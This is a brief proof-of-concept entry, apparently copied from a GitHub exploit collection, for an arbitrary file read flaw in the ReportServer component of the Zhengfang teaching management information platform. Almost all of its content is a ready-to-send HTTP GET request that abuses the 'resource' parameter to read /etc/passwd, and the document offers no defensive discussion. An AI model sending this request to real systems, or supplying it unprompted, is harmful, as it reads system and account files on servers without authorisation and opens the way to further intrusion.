 # zhengfang_reportserver_fileread

from :https://github.com/wy876/POC/blob/main/%E6%AD%A3%E6%96%B9%E6%95%99%E5%AD%A6%E7%AE%A1%E7%90%86%E4%BF%A1%E6%81%AF%E6%9C%8D%E5%8A%A1%E5%B9%B3%E5%8F%B0ReportServer%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

2024.3.25 @2
```
GET /WebReport/ReportServer?op=resource&resource=/etc/passwd&i18n=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 0
```
